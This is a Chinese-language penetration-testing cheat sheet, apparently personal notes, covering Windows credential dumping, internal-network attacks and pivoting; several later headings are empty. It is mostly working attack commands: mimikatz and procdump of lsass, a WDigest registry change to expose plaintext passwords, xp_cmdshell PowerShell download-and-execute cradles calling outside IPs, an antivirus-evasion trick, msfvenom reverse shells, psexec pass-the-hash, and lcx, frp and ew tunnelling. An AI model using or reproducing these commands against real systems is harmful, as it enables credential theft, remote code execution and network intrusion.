



# 获取hash





>
>
>Windows密码算法:LM Hahs(从windows server 2008开始禁用)和NTLM Hash (从windows vista以及windows server 2003之后使用此加密算法)
>
>要获取Windows中的散列值和明文密码，必须将权限提升至system权限。本地用户名、散列值和其他安全验证信息存在于SAM文件中（此文件不可复制）。lsass.exe进程用于实现Windows的安全策略。可使用工具将散列值和明文密码从sam文件和lsass.exe进程中获取出来。

### pwdump


### quarkpwdump

>quarkpwdump使用
>
>quarkpwdump.exe -dhl


### mimikatz

```sh

mimikatz的用法
创建交互式shell环境
privilege::debug
sekurlsa::logonpasswords

minikatz.exe privilege::debug sekurlsa::logonpasswords exit
```


```sh
reg save hklm\system system.bak #导出注册表文件
reg save hklm\sam sam.bak 

	
minikatz:
	lasdump::sam /sam:C:\users\xxx\sam.bak \system:C:\users\xxx\system.bak
```


```sh
prodump.exe -accepteula -ma lsass.exe lsass.dmp #导出lsass.dmp文件
或使用任务管理器 lsass.exe进程  右击create dump file导出到文件

-----
mimikatz.exe
	sekurlsa::minidump lsass.dmp  #加载lsass.dmp
	sekurlsa::logonPasswords full   #导出散列值
```


### 使用Powershell对散列值进行dump操作





```sh
powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log 


exec ("xp_cmdshell''where powershell''")
exec ("xp_cmdshell'copy c:\xxx\powershell.exe test.txt'")
exec ("xp_cmdshell''powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log''")


----------------------------绕杀软
echo "xx.txt powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log" > tmp.bat
where powershell
copy c:\windows\system32\windowspowershell\v1.0\powershell.exe xx.txt

tmp.bat执行输出到c:\www\password.log中
```


### 修改注册表获取lsass.exe进程中的密码

lsass.exe 存储明文密码

minikatz抓取失败

需要使用prodump 使用

minikatx.exe 'lesse.dmp'

```sh 修改注册表
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
#2016server进行修改命令
修改后 shutdonw /r /t 0
#关机重启
上传procdump脚本
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
最终下载生成的lsass.dmp文件
使用mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
进行获取明文密码


```


### metaspoit框架

```sh
反弹的shell提升到system权限
run windows/gather/smart_hashdump

load mimikatz

msv 获取hash
keyberos 获取明文
ssp 获取明文信息
tspkg 尝试检索tspkg凭据
wdigest 尝试检索wdugest凭据
mimikatz_command -f samdump::hashes 获取hash
mimikatz_command -f sekurlsa::searchPasswords 获取明文密码
```


### cobalt strike框架


# 内网

## 内网环境搭建

> 内网也指局域网，是指在某一区域内由多台计算机互联组成的计算机组

保留地址

- 10.x.x.x
- 172.16.x.x-172.31.x.x
- 192.168.x.x


## 内网信息搜集

1. arp -a 查看缓存表
2. netstat -an 网络


proxychains


下载生成的zip payload


 


边界机器

Linux

1. nmap脚本

2. ping脚本

3. nbtscan

4. fscan

   

Windows	

​		主机上线

​		nmap扫描

​		netdiscover

​		ladon

​		fsan

下载文件方式


```sh
-- exec xp_cmdshell "powershell.exe iex (New-Object Net.Webclient).DownloadString('http://173.82.219.68:8000/mot/payload.ps1');"

-- exec xp_cmdshell "powershell.exe iex (New-Object Net.Webclient).DownloadString('http://173.82.219.68:8000/mot/payloads.ps1');"

本地开启服务
---------------------------------------------
cs80服务的文件
exec xp_cmdshell "powershell.exe iex (New-Object Net.Webclient).DownloadString('http://120.55.58.254:80/download/file.ext');"
#下载且执行


certutil.exe -urlcache -split -f http://192.168.21.29:9999/payload.ps1 c:\www\payload.ps1
```


```shell
set-executionpolicy remotesigned    允许执行ps1脚本


HTML Application # 生成(executable/VBA/powershell)这三种原理实现的恶意HTA木马文件
MS Office Macro # 生成office宏病毒文件
Payload Generator # 生成各种语言版本的payload
USB/CD AutoPlay # 生成利用自动播放运行的木马文件
Windows Dropper # 捆绑器能够对任意的正常文件进行捆绑(免杀效果差)
Windows Executable # 生成可执行exe木马
Windows Executable(Stageless) # 生成无状态的可执行exe木马

#Windows 过杀软版
exec xp_cmdshell "where powershell"
exec xp_cmdshell "copy powershell的路径 test.txt"
写个run.bat：内容：
test.txt IEX (New-Object Net.Webclient).DownloadString('http://192.168.21.29:9999/payload.ps1');payload

run.bat
```


## IPC攻击


```sh
net use \\192.168.21.70\ipc$ marmot.4151 /user:administrator

net use /delete \\192.168.21.70\ipc$ #删除连接

dir \\ip\admin$  #查看windows目录     
dir \\ip\c$		#查看c盘
net time \\ip\  #查看时间
copy shell.exe \\ip\c$ #拷贝文件
at \\192.168.x.x 9:50 c:\www\xxx.bat  #设置计划任务
------------------------
连接管理员amdinistrator可看管理员的文件
连接管理员组用户admin


\\ip\c$
139端口 和445端口
传输（命令执行）     认证端口（可连，但是不能执行at....，文件管理）


psservice   不弹窗

psexec.exe /accepteula \\192.168.21.70 -u administrator -p marmot.4151 cmd
```


 


```sh
psexec.exe -hashes 0*32:哈希值 administrator@ip cmd 
# exe版登录ipc
------------------------


python psexec.py -hashes 0*32:哈希值 administrator@ip cmd 
#python版登录ipc
```


**pth 用户sid为 500 为administrator** 

​				**s501为guest用户**

**补丁为    kb2871997补丁**


上传psexec.exe到上线主机，或者使用cs中的psexec执行攻击其他主机

```sh
shell ladon.exe 192.168.1.1/24 smbhashscan (自动识别user.txt以及pass.txt)
自动爆破hash值

fsc
```

go build -ldflags="-s -w" -trimpath

## pth


# 内网转发


## 端口转发

tools:

1. lcx
2. frp
3. cs
4. msf
5. termite
6. stowaway
7. lcx-go
8. nps
9. dog-tunel


```sh
A 攻击机
	192.168.12.178
	kali/windows系统
	hydra/mysql-cli/redis-cli
B 中转服务器
	172.16.12.2
	10.10.10.90
	webshell shell.php
c 目标主机
	内网主机 redis 6379   10.10.10.100

在B主机中执行 lcx -tran 8899 10.10.10.100 6379
	netstat -antlp
	开放了8899端口
攻击机可使用 redis-cli 172.16.12.2 -p 8899 连接redis
```


```sh
msfvenom -p linux/x64/shell/reverse_tcp lhost=172.16.12.182 lport=4444 -f elf -o msf

msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=172.16.12.182 lport=4444 -f elf -o msf0

msf获取网段 run get_local_subnets
路由转发添加内网段 run autoroute -s 192.168.10.0/24


```

目标服务器使用了防火墙

1. 添加注册表
2. slave   listen

```sh
 
目标服务器: lcx -slave 阿里.ip 443 127.0.0.1 6379

阿里云: lcx -listen 443 9005 


内网的目标主机必须可通网，


---------------------------------------
中转机器没有防火墙，
lcx -tran 4444 192.168.21.66(中转机) 4444


---------------------------------------
lcx -tran 4455 192.168.1.102 445
lcx -tran 5555 192.168.21.66 5555

set lhost 192.168.1.105
set lhost 5555
#攻击内网的445永恒之蓝
---------------------------------------
```


## frp

```sh
server :
	公网服务器
	frps.exe
	173.xx.xx.x		tcp\udp 7000
client:
	远控内网
	192.168.13.x    connect 173.xx.xx.x:7000
	frpc.ini配置文件（端口转发配置） 

	server_addr = 公网ip
	server_port = 公网frps端口
	
	[tomcat]
	type = tcp
	local_ip = 本地ip
	local_port = 本地端口
	remote_port = 远程端口
	
	frpc.exe -c frpc.ini    
	
	frpc.exe reload -c frpc.ini 重载
	6000-7000端口谷歌火狐不可访问
```





## 边界代理


>正向代理：为客户端收发请求，使真实客户端对服务器不可见
>
>反向代理：为服务端转发请求。
>
>

## 代理转发

tools：

1. ew
2. cs
3. msf
4. termite
5. stowaway
6. ex-go
7. dog-tunnel


```sh
ew.exe -s ssocksd -l 8080   #(边界机)
firefox : ichunqiu的ip:8080

可直接访问ichunqiu内网的ip

netstat -ano | findstr 8080

msfconsole set proxy


-----------------------------------------
ew.exe -s rssocks -d 阿里云ip -e 8888

ew -s rcsocks -e 8888 -l 1080


shell C:\www\login\ew.exe -s rssocks -d 192.168.21.29 -e 10003
ew.exe -s rcsocks -e 10003 -l 9993
-----------------------------------------
go-ew
179.60:server 1234 5678

75: clent 192.168.179.60 1234


firefox 192.168.179.60 5678
```


```sh
apt install proxychains4

/etc/proxychains4.conf

scoks5 127.0.0.1 10000 #代理服务器
```


## arp攻击


## 横向渗透


# 域

## 域搭建


## 域内信息搜集


## ptt/pth/黄金票据/白银票据


## 域控提权


## exchange

